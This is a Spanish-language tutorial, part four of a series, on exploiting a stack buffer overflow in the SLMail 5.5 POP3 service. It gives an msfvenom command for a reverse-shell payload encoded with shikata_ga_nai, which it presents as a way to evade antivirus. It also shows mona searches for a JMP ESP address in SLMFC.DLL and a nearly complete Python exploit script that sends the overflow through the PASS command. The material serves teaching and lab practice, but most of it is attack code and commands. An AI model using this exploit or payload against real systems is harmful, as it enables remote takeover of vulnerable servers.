





# Buffer Overflow - Parte 4: Búsqueda de OpCodes para entrar al ESP y cargar nuestro Shellcode

---

## 📋 Índice
- [Generación de Shellcode con msfvenom](#generación-de-shellcode-con-msfvenom)
- [Búsqueda de módulos vulnerables](#búsqueda-de-módulos-vulnerables)
- [Obtención del OpCode JMP ESP](#obtención-del-opcode-jmp-esp)
- [Aplicación de Little Endian](#aplicación-de-little-endian)
- [Integración en el exploit](#integración-en-el-exploit)
- [Siguientes pasos](#siguientes-pasos)

---

## Generación de Shellcode con msfvenom

### 🎯 Objetivo

Una vez filtrados los **bad characters**, necesitamos generar un **shellcode malicioso** que: 
- ✅ No contenga badchars (`\x00\x0a\x0d`)
- ✅ Esté codificado para evadir antivirus
- ✅ Nos proporcione una reverse shell

---

### 🛠️ ¿Qué es msfvenom? 

**[[msfvenom]]** es la herramienta de Metasploit Framework para generar payloads personalizados. 

| Característica | Descripción                           |
| -------------- | ------------------------------------- |
| **Función**    | Generador de shellcode y payloads     |
| **Encoders**   | Ofusca el código para evasión         |
| **Formatos**   | C, Python, PowerShell, EXE, DLL, etc. |
| **Bad chars**  | Excluye bytes problemáticos           |

---

### 🔐 Encoder:  Shikata Ga Nai

> [!important] ¿Qué es Shikata Ga Nai?
> 
> **Shikata Ga Nai** (しかたがない) significa en japonés "no hay remedio" o "no se puede evitar". 
> 
> Es un **encoder polimórfico** que: 
> - 🔄 **Ofusca el shellcode** usando XOR y operaciones aleatorias
> - 🎲 **Genera código único** en cada ejecución
> - 🛡️ **Evade firmas estáticas** de antivirus tradicionales
> - 🔀 **Usa instrucciones polimórficas** que cambian entre ejecuciones



---

### 📚 Comandos básicos de msfvenom

#### Listar payloads disponibles
```bash
msfvenom -l payloads | grep windows
```

**Ejemplos útiles:**
```
windows/shell_reverse_tcp       Reverse shell TCP
windows/meterpreter/reverse_tcp Meterpreter reverse
windows/exec                    Ejecutar comando
```

#### Listar encoders disponibles
```bash
msfvenom -l encoders
```

**Encoders destacados:**
```
x86/shikata_ga_nai              Polimórfico XOR (excelente)
x86/fnstenv_mov                 FPU GetPC (bueno)
x86/jmp_call_additive           JMP/CALL XOR (moderado)
```

---

### 🚀 Generar shellcode para SLMail

#### Comando completo

```bash
msfvenom -p windows/shell_reverse_tcp \
         --platform windows \
         -a x86 \
         LHOST=192.168.1.100 \
         LPORT=443 \
         -f py \
         -e x86/shikata_ga_nai \
         -b '\x00\x0a\x0d' \
         EXITFUNC=thread
```

#### Explicación de parámetros

| Parámetro | Valor | Descripción |
|-----------|-------|-------------|
| `-p` | `windows/shell_reverse_tcp` | Payload de reverse shell |
| `--platform` | `windows` | Sistema operativo objetivo |
| `-a` | `x86` | Arquitectura 32-bit |
| `LHOST` | `192.168.1.100` | IP de la máquina atacante |
| `LPORT` | `443` | Puerto del listener (atacante) |
| `-f` | `py` | Formato de salida (Python) |
| `-e` | `x86/shikata_ga_nai` | Encoder para ofuscación |
| `-b` | `'\x00\x0a\x0d'` | Bad characters a excluir |
| `EXITFUNC` | `thread` | No mata el proceso padre al salir |

> [!tip] EXITFUNC=thread
> Esta opción es **crítica** porque: 
> - ✅ Crea un hilo hijo para el shellcode
> - ✅ El servicio SLMail sigue corriendo después del exploit
> - ✅ Permite múltiples conexiones sin reiniciar el servicio

---

#### Salida esperada

```python
# Payload size:  351 bytes
# Final size of py file: 1712 bytes
buf =  b""
buf += b"\xda\xcd\xd9\x74\x24\xf4\xba\x4e\x9f\x3a\x7c\x5b"
buf += b"\x33\xc9\xb1\x52\x31\x53\x17\x03\x53\x17\x83\x29"
buf += b"\xfc\x4a\x96\x31\xea\x08\x59\xc9\xeb\x6d\xd0\x2c"
# ... (más bytes del shellcode)
```

> [!example] Uso en el script
> Copia esta salida directamente a tu exploit Python, reemplazando la variable `shellcode`.

---

### 🔄 Flujo completo de generación



---

## Búsqueda de módulos vulnerables

### 🎯 Objetivo:  Encontrar JMP ESP

Para que el EIP redirija el flujo al shellcode, necesitamos:
1. Una **dirección confiable** que contenga la instrucción `JMP ESP`
2. Que esa dirección **no contenga badchars**
3. Que esté en un **módulo sin protecciones** (ASLR, DEP, SafeSEH)

---

### 🔍 Buscar módulos con mona

```bash
! mona modules
```

**Salida:**


---

### 📊 Análisis de protecciones

| Columna | Significado | Valor deseado |
|---------|-------------|---------------|
| **Rebase** | ASLR activado | ❌ False |
| **SafeSEH** | Protección SEH | ❌ False |
| **ASLR** | Randomización de direcciones | ❌ False |
| **NXCompat** | DEP (Data Execution Prevention) | ❌ False |
| **OS DLL** | Librería del sistema | ⚠️ True/False |

> [!warning] Módulos del sistema operativo
> Preferiblemente elige módulos que **no sean OS DLL**, ya que:
> - 🔄 Pueden cambiar entre versiones de Windows
> - 🛡️ Suelen tener más protecciones activas

---

### ✅ Selección del módulo ideal

En nuestro caso:  **SLMFC.DLL**


| Propiedad | Valor | ¿Por qué es bueno? |
|-----------|-------|--------------------|
| Rebase | ❌ False | Dirección fija (no ASLR) |
| SafeSEH | ❌ False | No valida SEH |
| ASLR | ❌ False | Predecible entre reinicios |
| NXCompat | ❌ False | Permite ejecución en stack |
| OS DLL | ✅ True (SLMail) | Parte de la aplicación vulnerable |

> [!success] Módulo perfecto
> **SLMFC.DLL** no tiene ninguna protección activa, ideal para nuestro exploit.

---

## Obtención del OpCode JMP ESP

### 🧩 ¿Qué es un OpCode?

Un **OpCode** (Operation Code) es la representación en hexadecimal de una instrucción assembly.

```assembly
JMP ESP  →  FFE4  (OpCode en hexadecimal)
```

---

### 🛠️ Herramienta:  nasm_shell.rb

Metasploit incluye una shell interactiva para convertir instrucciones assembly a OpCodes: 

```bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
```

**Sesión interactiva:**

```bash
nasm > jmp esp
00000000  FFE4              jmp esp

nasm > call esp
00000000  FFD4              call esp

nasm > push esp
00000000  54                push esp
```

**Para nuestro caso:**
```
jmp esp  →  FFE4
```

> [!info] OpCode vs Dirección
> - **OpCode** (`FFE4`): Representación de la instrucción
> - **Dirección** (`0x5f4c4d13`): Ubicación en memoria donde está el OpCode
> 
> ⚠️ Solo las **direcciones** se convierten a Little Endian, **no los OpCodes**. 

---

### 🔎 Buscar el OpCode en el módulo

Ahora buscamos dónde está la instrucción `JMP ESP` dentro de **SLMFC.DLL**:

```bash
! mona find -s "\xff\xe4" -m SLMFC.DLL
```

**Parámetros:**
- `-s`: Patrón a buscar (OpCode en formato `\xHH\xHH`)
- `-m`: Módulo donde buscar

---

**Salida esperada:**


```
0x5f4a358f :  "\xff\xe4" |  {PAGE_EXECUTE_READ} [SLMFC.DLL] ASLR: False, Rebase: False, SafeSEH: False, OS:  False, v-1.0- (C:\Program Files\SLmail\SLMFC.DLL)
0x5f4a41b7 : "\xff\xe4" |  {PAGE_EXECUTE_READ} [SLMFC.DLL] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\SLmail\SLMFC.DLL)
0x5f4c4d13 : "\xff\xe4" |  {PAGE_EXECUTE_READ} [SLMFC.DLL] ASLR: False, Rebase: False, SafeSEH:  False, OS: False, v-1.0- (C:\Program Files\SLmail\SLMFC.DLL)
```

---

### ✅ Selección de la dirección correcta

#### Criterios de selección

1. **No contener badchars** (`\x00`, `\x0a`, `\x0d`)
2. **Permisos de ejecución** (`PAGE_EXECUTE_READ`)
3. **Módulo sin protecciones**

#### Análisis de direcciones

| Dirección | Contiene badchars | ¿Válida? |
|-----------|-------------------|----------|
| `0x5f4a358f` | ❌ No | ✅ Sí |
| `0x5f4a41b7` | ❌ No | ✅ Sí |
| `0x5f4c4d13` | ❌ No | ✅ Sí |

**Elegimos:**  `0x5f4c4d13` ✅


> [!tip] Verificación manual
> Descompón la dirección en bytes:
> ```
> 0x5f4c4d13
>   5f  →  95  ✅ No es badchar
>   4c  →  76  ✅ No es badchar
>   4d  →  77  ✅ No es badchar
>   13  →  19  ✅ No es badchar
> ```

---

## Aplicación de Little Endian

### 🔄 ¿Qué es Little Endian?

En arquitecturas **x86 (32-bit)**, las direcciones de memoria se almacenan **al revés** (byte menos significativo primero).

```
Dirección original:   0x5f4c4d13
Little Endian:       \x13\x4d\x4c\x5f
```

### 📊 Conversión visual



---

### 🐍 Implementación en Python

Python incluye la función `pack()` del módulo `struct` para convertir a Little Endian:

```python
from struct import pack

# Forma manual (incorrecta en x86)
eip = b"\x5f\x4c\x4d\x13"  # ❌ Big Endian (no funciona)

# Forma correcta con pack
eip = pack("<L", 0x5f4c4d13)  # ✅ Little Endian automático
#          └─┬┘  └───┬─────┘
#            │       └─ Dirección en formato entero
#            └─ Formato:  < (Little Endian), L (unsigned long, 4 bytes)
```

**Formatos de pack:**

| Formato | Tipo | Tamaño | Endianness |
|---------|------|--------|------------|
| `<L` | Unsigned long | 4 bytes | Little Endian |
| `>L` | Unsigned long | 4 bytes | Big Endian |
| `<I` | Unsigned int | 4 bytes | Little Endian |
| `<Q` | Unsigned long long | 8 bytes | Little Endian (x64) |

> [!warning] Importante
> - **OpCodes** (`\xff\xe4`): No se convierten a Little Endian
> - **Direcciones** (`0x5f4c4d13`): Sí se convierten a Little Endian

---

## Integración en el exploit

### 📝 Código completo actualizado

```python name="exploit_slmail.py"
from struct import pack  # ← Importar para Little Endian
import socket
import sys

# === CONFIGURACIÓN ===
IP_ADDRESS = "192.168.1.5"
PORT = 110
OFFSET = 2606

# === CONSTRUCCIÓN DEL PAYLOAD ===
# 1. Buffer hasta el EIP
BEFORE_EIP = b"A" * OFFSET

# 2. EIP:  Dirección de JMP ESP (Little Endian)
EIP = pack("<L", 0x5f4c4d13)

# 3. Shellcode (generado con msfvenom)
# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.100 LPORT=443 \
#          -f py -e x86/shikata_ga_nai -b '\x00\x0a\x0d' EXITFUNC=thread

SHELLCODE = (
    b"\xda\xcd\xd9\x74\x24\xf4\xba\x4e\x9f\x3a\x7c\x5b"
    b"\x33\xc9\xb1\x52\x31\x53\x17\x03\x53\x17\x83\x29"
    b"\xfc\x4a\x96\x31\xea\x08\x59\xc9\xeb\x6d\xd0\x2c"
    # ... (resto del shellcode generado por msfvenom)
)

# Payload completo
PAYLOAD = BEFORE_EIP + EIP + SHELLCODE

# === FUNCIÓN DE EXPLOTACIÓN ===
def exploit(ip, port):
    """
    Explota buffer overflow en SLMail 5.5 (puerto 110 - POP3)
    """
    try:
        print(f"\n[*] Conectando a {ip}:{port}...")
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip, port))
        
        # Recibir banner
        banner = s.recv(1024)
        print(f"[+] Banner:  {banner.decode().strip()}")
        
        # Enviar USER
        s.send(b"USER test\r\n")
        response = s.recv(1024)
        print(f"[+] USER: {response.decode().strip()}")
        
        # Enviar PASS con payload
        print(f"[! ] Enviando payload ({len(PAYLOAD)} bytes)...")
        print(f"    - Offset: {OFFSET} bytes")
        print(f"    - EIP:  0x5f4c4d13 (JMP ESP)")
        print(f"    - Shellcode: {len(SHELLCODE)} bytes")
        
        s.send(b"PASS " + PAYLOAD + b"\r\n")
        s.close()
        
        print("[+] Payload enviado correctamente")
        print("[*] Verifica la reverse shell en tu listener")
        
    except Exception as e:
        print(f"[-] Error: {e}")

# === MAIN ===
if __name__ == '__main__':
    if len(sys.argv) > 1:
        IP_ADDRESS = sys.argv[1]
    
    print("="*60)
    print("  SLMail 5.5 Buffer Overflow Exploit")
    print("  Target:  PASS command (POP3)")
    print("="*60)
    
    exploit(IP_ADDRESS, PORT)
```

---

### 🎯 Estructura del payload final

```
┌────────────────────────────────────────────────────┐
│  BEFORE_EIP (2606 bytes de "A")                    │
│  ┌──────────────────────────────────────────┐      │
│  │ A A A A A A A A A A A A A A A A A A ...  │      │
│  └──────────────────────────────────────────┘      │
├────────────────────────────────────────────────────┤
│  EIP (4 bytes - Dirección JMP ESP)                 │
│  ┌──────────────────────────────────────────┐      │
│  │ \x13\x4d\x4c\x5f (0x5f4c4d13 en LE)      │      │
│  └──────────────────────────────────────────┘      │
├────────────────────────────────────────────────────┤
│  SHELLCODE (reverse shell)                         │
│  ┌──────────────────────────────────────────┐      │
│  │ \xda\xcd\xd9\x74...  (msfvenom)          │      │
│  └──────────────────────────────────────────┘      │
└────────────────────────────────────────────────────┘
```

---

### 🔄 Flujo de ejecución



---

## 💡 Conceptos clave

> [!info] Diferencia entre OpCode y Dirección
> - **OpCode** (`\xff\xe4`): Instrucción assembly en hexadecimal
> - **Dirección** (`0x5f4c4d13`): Ubicación en memoria donde está el OpCode
> 
> Solo las **direcciones** necesitan Little Endian. 

> [!warning] Bad characters en direcciones
> Una dirección puede ser inválida si contiene badchars: 
> ```
> 0x5f0a4d13  ❌ Contiene \x0a (badchar)
> 0x5f4c4d13  ✅ No contiene badchars
> ```

> [!tip] Verificación de módulos
> Usa `!mona modules` para verificar:
> - ✅ Rebase = False (no ASLR)
> - ✅ SafeSEH = False
> - ✅ ASLR = False
> - ✅ NXCompat = False

---

## 🎯 Checklist de esta fase

- [ ] Generé el shellcode con msfvenom excluyendo badchars
- [ ] Configuré LHOST y LPORT correctamente
- [ ] Usé el encoder `shikata_ga_nai` para ofuscación
- [ ] Agregué `EXITFUNC=thread` al comando msfvenom
- [ ] Busqué módulos vulnerables con `!mona modules`
- [ ] Seleccioné un módulo sin protecciones (SLMFC.DLL)
- [ ] Obtuve el OpCode de `JMP ESP` con nasm_shell (`\xff\xe4`)
- [ ] Busqué el OpCode en el módulo con `!mona find`
- [ ] Verifiqué que la dirección no contenga badchars
- [ ] Apliqué Little Endian con `pack("<L", dirección)`
- [ ] Integré todo en el exploit Python

---

## ⚠️ Por qué este código aún no funciona

```python
# Este exploit está casi completo, pero falta un detalle crítico
PAYLOAD = BEFORE_EIP + EIP + SHELLCODE  # ← Problema aquí
```

**Problemas pendientes:**
1. 🚫 **Instrucciones corruptas**: El ESP puede apuntar a instrucciones parcialmente escritas
2. 🚫 **Alignment issues**: El shellcode puede no estar alineado correctamente
3. 🚫 **Interferencia de registros**: El propio salto JMP puede alterar el stack

> [!warning] Siguiente fase necesaria
> Necesitamos añadir **NOPs (No Operations)** y ajustar el **desplazamiento del stack** para que el shellcode se interprete correctamente.

---

## 🔗 Siguientes pasos



---

## 📚 Comandos de referencia rápida

| Herramienta | Comando | Propósito |
|-------------|---------|-----------|
| **msfvenom** | `msfvenom -l payloads` | Listar payloads |
| **msfvenom** | `msfvenom -l encoders` | Listar encoders |
| **msfvenom** | `msfvenom -p windows/shell_reverse_tcp ... ` | Generar shellcode |
| **mona** | `!mona modules` | Listar módulos cargados |
| **mona** | `!mona find -s "\xff\xe4" -m SLMFC.DLL` | Buscar OpCode JMP ESP |
| **nasm_shell** | `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb` | Convertir ASM a OpCode |
| **Python** | `from struct import pack` | Little Endian |
| **Python** | `pack("<L", 0x5f4c4d13)` | Convertir dirección |

---

> [!success] Resumen de Parte 4
> 
> ✅ **Shellcode**:  Generado con msfvenom sin badchars  
> ✅ **Encoder**: Shikata Ga Nai para ofuscación  
> ✅ **Módulo**:  SLMFC.DLL sin protecciones  
> ✅ **OpCode**: `\xff\xe4` (JMP ESP) encontrado  
> ✅ **Dirección**: `0x5f4c4d13` válida (sin badchars)  
> ✅ **Little Endian**: Aplicado con `pack("<L", ... )`  
> ⚠️ **Falta**: NOPs y ajuste de stack (Parte 5)  
> 
> **Próximo paso:** [[Parte 5 - Uso de NOPs y Desplazamiento de la Pila para interpretar el RCE]]